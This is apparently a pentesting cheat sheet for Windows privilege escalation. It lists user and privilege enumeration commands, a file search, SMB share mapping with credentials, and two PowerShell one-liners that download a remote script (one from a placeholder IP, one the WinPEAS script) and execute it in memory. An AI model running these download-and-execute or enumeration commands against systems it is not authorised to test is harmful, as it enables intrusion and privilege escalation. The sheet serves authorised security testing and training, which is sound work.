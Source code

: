 ```yaml
---
icon: windows
---
```


# Windows Privilege Escalation

## System Enumeration

### List Users

```batch
net user
```

### User Privileges

```batch
whoami /priv
```

### Search Files

{% hint style="info" %}
If you dont know the full path of the file or even the extension, you can use: `*<FILE>*`
{% endhint %}

```batch
cmd /s <FILE>
```

### List Recursive Directories (PowerShell)

```powershell
ls . -Recurse -Force -Name -Filter "<filter>" | foreach { ls -for $_ }
```

### Add SMB share to network drives

```batch
net use z: \\<ip>\<share> /user:<user> <pass>
```

### Execute Remote PowerShell Script

```powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip>/script.ps1')
```

### [WinPEAS](https://github.com/peass-ng/PEASS-ng)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

